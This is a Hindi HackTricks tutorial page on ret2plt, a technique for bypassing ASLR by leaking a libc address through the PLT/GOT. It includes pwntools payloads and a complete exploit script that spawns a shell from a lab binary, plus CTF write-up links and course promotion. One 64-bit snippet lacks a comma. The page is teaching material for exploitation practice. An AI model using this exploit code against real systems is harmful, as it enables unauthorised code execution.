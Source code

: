 # Ret2plt

{% hint style="success" %}
**AWS हैकिंग सीखें और अभ्यास करें:** [**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
**GCP हैकिंग सीखें और अभ्यास करें:** [**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## मौलिक जानकारी

इस तकनीक का लक्ष्य होगा कि **PLT से किसी फ़ंक्शन का पता लगाएं** ताकि ASLR को उम्मीद से भी आगे बढ़ा सकें। यह इसलिए है क्योंकि यदि आप, उदाहरण के लिए, `puts` फ़ंक्शन का पता लीक करते हैं libc से, तो फिर आप **`libc` का बेस कहाँ है उसे गणना** कर सकते हैं और अन्य फ़ंक्शनों तक पहुँचने के लिए ऑफ़सेट की गणना कर सकते हैं जैसे कि **`system`**।

यह `pwntools` पेलोड के साथ किया जा सकता है जैसे ([**यहाँ से**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
नोट करें कि **`puts`** (PLT से पते का उपयोग करके) `puts` का पता गोट (ग्लोबल ऑफसेट टेबल) में स्थित `puts` के पते के साथ किया जाता है। यह इसलिए है क्योंकि `puts` जब `puts` का GOT एंट्री प्रिंट करता है, तो यह **एंट्री मेमोरी में `puts` का सटीक पता** रखेगी।

इसके अलावा, ध्यान दें कि एक्सप्लॉइट में `main` का पता उपयोग किया जाता है ताकि `puts` अपने निष्पादन को समाप्त करने पर **बाइनरी `main` को फिर से बुलाए** (ताकि लीक हुआ पता वैध रहे)।

{% hint style="danger" %}
ध्यान दें कि इसे काम करने के लिए **बाइनरी को PIE के साथ कंपाइल नहीं किया जा सकता** या आपको **PIE को बाइपास करने के लिए लीक पाना होगा** ताकि PLT, GOT और main का पता पता चले। अन्यथा, आपको पहले PIE को बाइपास करना होगा।
{% endhint %}

आप यहाँ [**इस बाइपास का पूर्ण उदाहरण देख सकते हैं**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass)। यह उस **उदाहरण** का अंतिम एक्सप्लॉइट था।
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## अन्य उदाहरण और संदर्भ

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 बिट, ASLR सक्षम है लेकिन PIE नहीं है, पहला कदम है कि एक ओवरफ्लो को भरना है जब तक कैनेरी का बाइट 0x00 तक न पहुंच जाए और फिर puts को कॉल करें और इसे लीक करें। कैनेरी के साथ एक ROP गैजेट बनाया जाता है जिससे puts को कॉल करने के लिए GOT से puts का पता लीक होता है और फिर `system('/bin/sh')` को कॉल करने के लिए एक ROP गैजेट।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 बिट, ASLR सक्षम है, कोई कैनेरी नहीं है, मुख्य स्टैक ओवरफ्लो में एक चाइल्ड फ़ंक्शन से। puts को कॉल करने के लिए ROP गैजेट ताकि GOT से puts का पता लीक हो और फिर एक वन गैजेट को कॉल करें।
